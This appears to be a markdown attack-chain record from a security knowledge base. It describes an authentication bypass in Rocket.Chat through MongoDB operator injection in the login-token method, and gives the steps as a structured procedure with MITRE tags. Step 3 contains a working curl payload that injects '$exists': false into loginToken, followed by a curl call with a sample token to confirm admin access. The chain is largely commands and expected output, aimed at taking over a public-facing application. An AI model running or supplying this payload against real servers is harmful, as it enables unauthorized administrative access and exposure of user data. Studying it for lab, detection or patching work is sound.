

---
tags:
  - mongodb-injection
  - auth-bypass
  - nosql-injection
  - rocket-chat
type: attack_chain
tools:
  - '[[tools/curl]]'
  - '[[tools/Web-Inspector]]'
  - '[[tools/fetch]]'
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Access-Rocket-Chat-Login-Endpoint]]'
  - '[[procedures/Inspect-Network-Requests-with-Web-Inspector]]'
  - '[[procedures/Exploit-MongoDB-Injection-for-Auth-Bypass]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Valid Accounts]]'
updated_at: '2025-12-14T17:31:30.853Z'
description: >-
  Multi-stage attack exploiting improper input validation in Rocket.Chat's
  login-token authentication to perform MongoDB injection and gain
  administrative access.
skill_level: intermediate
impact_level: high
id: a9cc98b3-4a85-4653-baf0-0a44d61bcc75
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Valid Accounts]]'
---
# Rocket.Chat Authentication Bypass via MongoDB Injection in Login Token

Multi-stage attack chain demonstrating authentication bypass in Rocket.Chat through MongoDB injection in the login-token method, leading to administrative access.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]
- [[tools/Web-Inspector]]
- [[tools/fetch]]

### Target Environment

- Web platform with Rocket.Chat instance running on port 3000
- MongoDB backend
- Node.js/Meteor tech stack
- Unauthenticated access to the login endpoint

### Initial Access Requirements

- Network access to the Rocket.Chat instance (e.g., http://127.0.0.1:3000)
- No prior credentials needed
- Browser for Web Inspector or command-line for curl

## Detailed Attack Procedures

### Step 1: Access Rocket.Chat Login Endpoint
procedure: [[procedures/Access-Rocket-Chat-Login-Endpoint]]

**Objective**: Gain initial access to the unauthenticated Rocket.Chat instance to prepare for exploitation.

**Instructions**: Navigate to the target Rocket.Chat URL in a browser while ensuring no active session exists. Confirm the login page loads without authentication.

**Expected Output**: Rocket.Chat login interface visible, no session cookies or tokens present.

**Success Indicators**:
- Page loads successfully without redirect to dashboard
- Network tab shows no prior auth requests

### Step 2: Inspect Network Requests with Web Inspector
procedure: [[procedures/Inspect-Network-Requests-with-Web-Inspector]]

**Objective**: Use browser tools to monitor and prepare for custom authentication requests.

**Instructions**: Open the browser's developer tools (Web Inspector) and navigate to the Network tab to observe any login attempts. This sets up for injecting the exploit payload.

**Expected Output**: Empty or baseline network activity visible in the inspector.

**Success Indicators**:
- Developer tools open without errors
- Network tab ready for capturing POST requests to /api/v1/login

### Step 3: Exploit MongoDB Injection for Auth Bypass
procedure: [[procedures/Exploit-MongoDB-Injection-for-Auth-Bypass]]

**Objective**: Inject a MongoDB operator into the loginToken parameter to bypass authentication and obtain admin credentials.

**Instructions**: Execute the injection using [[commands/curl-mongodb-injection-login-bypass]] to send the payload:

```bash
curl -s 'http://127.0.0.1:3000/api/v1/login' -H "Content-Type: application/json" -d '{"loginToken": { "$exists": false }}' | head
```

Store the returned userId and authToken. Then verify with [[commands/curl-verify-auth-bypass-with-me-endpoint]]:

```bash
curl -H "x-user-id: rocket.cat" -H "x-auth-token: MnTHVIRTZfRBQiFQYzWZ1xbBlL4BUwK2-3UBWTftXpB" http://127.0.0.1:3000/api/v1/me
```

Alternatively, use [[tools/fetch]] in the browser console for PoC.

**Expected Output**: First command returns JSON with success, userId (e.g., rocket.cat), and authToken. Second command returns user details including admin roles.

**Success Indicators**:
- Authentication tokens obtained
- Access to /api/v1/me confirms privileged user (e.g., roles: admin)

## Attack Chain Summary

### Key Achievements

1. Bypassed login without valid credentials
2. Injected MongoDB query to match first user (admin)
3. Gained administrative access to Rocket.Chat instance

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Valid Accounts]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---

*Last updated: 2023-10-01T00:00:00Z*
